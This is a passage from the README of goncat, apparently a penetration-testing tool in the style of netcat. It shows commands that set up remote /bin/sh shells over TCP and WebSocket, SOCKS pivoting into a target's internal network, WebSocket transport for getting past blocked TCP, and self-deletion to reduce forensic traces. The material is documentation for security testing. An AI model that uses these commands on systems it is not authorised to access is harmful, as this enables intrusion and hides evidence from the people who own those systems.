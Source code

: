 **Supported**: TCP CONNECT and UDP ASSOCIATE (no authentication)

**Use case**: Route browser traffic or other applications through the slave's network.

**Example with curl**:
```bash
# After setting up SOCKS proxy on port 1080
curl --socks5 127.0.0.1:1080 http://internal-service
```

### Session Logging

Record all session activity to a file:

```bash
goncat master listen 'tcp://*:12345' --exec /bin/sh --log /tmp/session.log
```

**What's logged**: All bytes sent over the main channel (what you see on screen). Control messages for PTY size synchronization are not logged.

**Note**: Logs may appear somewhat garbled when PTY is enabled due to terminal control sequences.

### Automatic Cleanup

Make the slave delete itself after execution:

```bash
goncat slave connect tcp://192.168.1.100:12345 --cleanup
```

**How it works**:
- **Linux**: The binary can delete itself directly (most systems allow this)
- **Windows**: Launches a separate CMD process that waits 5 seconds and then deletes the binary

**Use case**: Penetration testing and security assessments where you want to minimize forensic traces.

### Transport Protocol Options

goncat supports four transport protocols:

#### Plain TCP
```bash
goncat master listen 'tcp://*:12345' --exec /bin/sh
goncat slave connect tcp://192.168.1.100:12345
```

**Best for**: Direct connections, maximum compatibility.

#### WebSocket (ws)
```bash
goncat master listen 'ws://*:8080' --exec /bin/sh
goncat slave connect ws://192.168.1.100:8080
```

**Best for**: Environments where TCP might be blocked but HTTP is allowed.

#### WebSocket Secure (wss)
```bash
goncat master listen 'wss://*:8443' --exec /bin/sh
goncat slave connect wss://192.168.1.100:8443
```
